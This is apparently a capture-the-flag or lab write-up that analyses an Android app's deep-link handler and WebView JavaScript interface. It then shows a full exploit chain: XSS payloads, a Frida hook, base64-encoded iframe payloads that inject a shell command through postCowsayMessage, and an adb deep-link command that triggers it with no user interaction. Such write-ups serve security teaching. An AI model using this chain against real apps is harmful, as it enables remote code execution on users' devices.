





# Analysis
1. We open the `MainActivity` and found the application is called `setupWebView` and `handleIntent`.
    

2. Function `setupWebView` it's add Javascript Interface using class `WebAppInterface`, which allowed user to call function inside class `WebAppInterface` from webview.
    

3. Function `handleIntent` is required intent with action "android.intent.action.VIEW" and scheme equals to "postboard" and the host is equals to "postmessage" and it get the path that later base64 decoded and will replace `'` with an empty string. Which we can say that we need to input our message as path and base64 encoded, later will used to call function `postMarkdownMessage` in class `WebAppInterface`.
    

4. Class `WebAppInterface` handled our message in current stated and not saved.
    

5. Function `postMarkdownMessage` is handle message that we input from the app.
    

6. Function `postCowsayMessage` is call function `runCowsay` inside class `CowsayUtil`.
    

7. Function `runCowsay` is execute command system that vulnlerable to command injection and allow user to execute malicious command, because the user able to escape the command execution.
    

8. The function `postMarkdownMessage` and `clearCache` from class `WebAppInterface` is being called inside `assets/index.html`, but vulnerable function is only called by function `postCowsayMessage` and this function is not called in webview.
    

9. Based on our analysis, we need to find a way to achieve Cross-Site Scripting within the WebView and invoke the postCowsayMessage function with the precise argument to gained RCE.

# Exploitation

1. Run the application, and input `<h1>testing</h1>`.
    

2. We used chrome inspect for debugging by access `chrome:inspect#devices` in chrome browser and inspect the webview in `com.mobilehackinglab.postboard`.
    
    

3. We able to do html injection, now we try to call `console.log` from html injection with tag "button".
```html
<button onclick=console.log(1337)>HTML Injection</button>
```
    
    
    

4. We able to Cross-Site Scripting, now need to call `postCowsayMessage` from Cross-Site Scripting, but the `postCowsayMessage` is not called in the html, but we know the java function interface is being called with `window.WebAppInterface.<function name>`, we can check this with chrome debug console.
    

5. We know function `postCowsayMessage` is possible to be called, we can use `window.WebAppInterface.postCowsayMessage` to called it, update the tag button to call this function when we pressed it.
```html
<button onclick=window.WebAppInterface.postCowsayMessage() >HTML Injection</button>
```

6. To check our argument that being used to call `runCowsay`, we make frida hook function and print out the argument.
```js
Java.perform(() => {

    let WebAppInterface = Java.use("com.mobilehackinglab.postboard.WebAppInterface");
    WebAppInterface["postMarkdownMessage"].implementation = function (markdownMessage) {
        console.log(`WebAppInterface.postMarkdownMessage is called: markdownMessage=${markdownMessage}`);
        this["postMarkdownMessage"](markdownMessage);
    };

    WebAppInterface["postCowsayMessage"].implementation = function (cowsayMessage) {
        console.log(`WebAppInterface.postCowsayMessage is called: cowsayMessage=${cowsayMessage}`);
        this["postCowsayMessage"](cowsayMessage);
    };

    let Companion = Java.use("CowsayUtil$Companion");
    Companion["runCowsay"].implementation = function (message) {
        console.log(`Companion.runCowsay is called: message=${message}`);
        let result = this["runCowsay"](message);
        console.log(`Companion.runCowsay result=${result}`);
        return result;
    };
})
```

7. Now we used tag `iframe` to make it load the `postCowsayMessage` without any interaction and add argument also to escape the command execution, to execute our malicious command.
```html
<iframe onload=window.WebAppInterface.postCowsayMessage("test; touch /data/data/com.mobilehackinglab.postboard/files/rce.txt") />
```

8. The frida script is only called function `postMarkdownMessage` and not called `cowsayMessage` or `runCowsay` and we check in chrome debug, our payload is got escaped by space.
    
    

9. Then we also try to base64 encoded the argument.
```html
<iframe onload=window.WebAppInterface.postCowsayMessage(atob("aWQ7IHRvdWNoIC9kYXRhL2RhdGEvY29tLm1vYmlsZWhhY2tpbmdsYWIucG9zdGJvYXJkL2ZpbGVzL3JjZS50eHQgIw==")) />
```
    
    

10. We successfully doing command injection, now we can used `am` to trigger `Intent` to make it zero-click or no interaction at all in the vulnerable app.
    
```sh
adb shell am start -a android.intent.action.VIEW -d "postboard://postmessage/PGlmcmFtZSBvbmxvYWQ9d2luZG93LldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZShhdG9iKCJhV1E3SUhSdmRXTm9JQzlrWVhSaEwyUmhkR0V2WTI5dExtMXZZbWxzWldoaFkydHBibWRzWVdJdWNHOXpkR0p2WVhKa0wyWnBiR1Z6TDJsdVpYSnphVzRnSXc9PSIpKSAvPg=="
```
    

11. We successfully gained RCE.
    